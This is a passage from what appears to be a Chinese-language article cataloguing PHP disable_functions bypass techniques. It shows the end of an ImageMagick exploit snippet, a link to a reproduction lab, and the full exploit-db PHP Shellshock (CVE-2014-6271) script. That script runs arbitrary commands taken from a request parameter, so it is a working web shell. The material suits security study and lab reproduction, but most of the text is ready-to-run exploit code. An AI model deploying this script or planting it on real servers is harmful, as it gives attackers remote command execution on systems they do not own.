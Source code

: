 ```
$thumb-&gt;writeImage('KKKK.png');
$thumb-&gt;clear();
$thumb-&gt;destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
`}`
AAAA();
?&gt;
```

复现环境 [https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1](https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1)

### <a class="reference-link" name="4.%20PHP%205.x%20Shellshock%20Exploit%20(bypass%20disable_functions)"></a>4. PHP 5.x Shellshock Exploit (bypass disable_functions)

PHP &lt; 5.6.2 – ‘Shellshock’ Safe Mode / Disable Functions Bypass / Command Injection

exploit-db 上的脚本

```
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
&lt;pre&gt;
&lt;?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?&gt;
&lt;?php
function shellshock($cmd) `{` // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) `{`
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() `{` x; `}`; $cmd &gt;$tmp 2&gt;&amp;1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   `}`
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
`}`
echo shellshock($_REQUEST["cmd"]);
?&gt;
```
